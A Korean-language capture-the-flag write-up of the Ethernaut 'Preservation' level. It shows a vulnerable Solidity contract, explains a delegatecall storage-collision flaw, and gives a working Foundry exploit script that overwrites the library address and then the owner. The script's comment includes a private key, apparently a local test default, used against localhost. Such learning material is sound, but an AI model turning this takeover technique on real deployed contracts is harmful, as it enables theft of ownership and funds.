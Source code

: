 # 지문

이 컨트랙트는 서로 다른 두 개의 시간대를 위해 두 가지 시간을 저장하기 위해 라이브러리를 사용합니다. 생성자는 저장할 각각의 시간에 대해 라이브러리 인스턴스를 두 개 생성합니다.

이 레벨의 목표는 할당받은 인스턴스의 소유권을 당신이 획득하는 것입니다.

도움이 될 만한 것들:

* Solidity 문서에서 저수준 함수인 `delegatecall`을 살펴보세요. 어떻게 동작하는지, 온체인 라이브러리에 연산을 위임하는 데 어떻게 사용되는지, 그리고 실행 스코프에 어떤 영향을 미치는지 이해하세요.
* `delegatecall`이 컨텍스트를 보존한다는 것이 무엇을 의미하는지 이해하세요.
* 스토리지 변수들이 어떻게 저장되고 접근되는지 이해하세요.
* 서로 다른 데이터 타입 간의 캐스팅이 어떻게 동작하는지 이해하세요.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

# 풀이 

전형적인 Storage collision 문제.

delegatecall로 logic을 `LibraryContract`로부터 가져오는데 `setTime`함수는 Storage slot 0에 해당되는 곳에 값을 write하는 함수임.
근데 이걸 `Preservation` contract의 context에서 실행하면 `Preservation` contract의 Storage slot 0에 해당하는 `timeZone1Library`값이 overwrite됨.

그렇게 되면 공격자의 입장에서 `LibraryContract`가 아닌 임의의 Contract로부터 Logic을 가져와서 `Preservation` contract의 context위에서 실행할 수 있음

위와 같은 원리로 owner까지 덮어쓰면됨.


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function setFirstTime(uint256 _timeStamp) external;
    function setSecondTime(uint256 _timeStamp) external;
    function owner() external view returns (address);
}

contract CollisionHelper {
    address one;
    address two;
    address target;

    function setTime(uint256 _time) public {
        target = address(uint160(_time));
    }
}
contract SolveScript is Script {
    address public target = 0x4AE5AF759E17599107c1C688bfaCF6131C376D51;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        CollisionHelper helper = new CollisionHelper();
        console.log("owner : %s", ITarget(target).owner());
        ITarget(target).setFirstTime(uint256(uint160(address(helper))));
        ITarget(target).setFirstTime(uint256(uint160(0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC)));
        console.log("owner after poc : %s", ITarget(target).owner());
        vm.stopBroadcast();
    }
}

```